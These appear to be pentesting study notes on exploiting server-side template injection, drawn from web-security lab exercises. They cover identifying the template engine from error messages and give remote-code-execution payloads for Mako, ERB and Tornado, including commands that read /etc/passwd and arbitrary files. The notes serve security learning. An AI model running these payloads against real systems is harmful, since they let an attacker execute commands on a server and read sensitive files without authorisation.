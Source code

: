 {% hint style="info" %}
## Be aware some payloads return a successful response in more than one template language -> keep testing the chart
{% endhint %}

## Exploiting server-side template injection vulnerabilities

Once you discover SSTI and identify the template engine being used, successful exploitation typically involves the following process.

<pre class="language-sh" data-overflow="wrap" data-full-width="true"><code class="lang-sh">############################################ READ
Read the template engine documentation.

#### Learn the basic template syntax
# For example, once you know that the Python-based Mako template engine is being used -> achieve RCE this way:
&#x3C;%
                import os
                x=os.popen('id').read()
                %>
                ${x}
# EXAMPLE:  Basic server-side template injection
- Identify a request that allow parameters that are reflected (seen) on the response to inject SSTI 
- Try /?message=&#x3C;%=foobar%> to find an error which discloses ERB template engine
- Research how to execute commands --> &#x3C;%= system('cat /etc/passwd') %>
# EXAMPLE: Basic server-side template injection (code context)
- Identify requests with parameters. One is blog-post-author-display=user.name
- We can select different options, and those are reflected in our name when we post a comment
- After we try blog-post-author-display=${{&#x3C;%[%'"}}%\    'and then we post a comment, we get this error:
No handlers could be found for logger "tornado.application" Traceback (most recent call last): File "&#x3C;string>", line 15, in &#x3C;module> File "/usr/local/lib/python2.7/dist-packages/tornado/template.py", line 317, in __init__ "exec", dont_inherit=True) File "&#x3C;string>.generated.py", line 4 _tt_tmp = ${{&#x3C;%[%'" # &#x3C;string>:1 ^ SyntaxError: invalid syntax'
- Now we know the template engine is Tornado. Research how to execute code
{%import os%}{{os.system('whoami')}}
- Try user.name}}&#x3C;tag> to see reflected as Peter Wiener&#x3C;tag>}} 
- We try to break the template syntax -> user.name}}{{2*2}} renders to Peter Wiener4}}
- Now we try RCE and URL encode the payload -> user.name}}{%25import+os%25}{{os.system('whoami')}} gives us carlos user

#### Read about the security implications
Docu may provide a "Security" section of what to avoid using the template -> invaluable resource as cheatsheet
Even w/o "Security" section, if a particular object/function can pose a security risk -> warning on the docu -> research
# For example, in ERB, the docu reveals that you can list all directories and then read arbitrary files as follows: 
&#x3C;%= Dir.entries('/') %>
&#x3C;%= File.open('/example/arbitrary-file').read %>
# EXAMPLE: Server-side template injection using documentation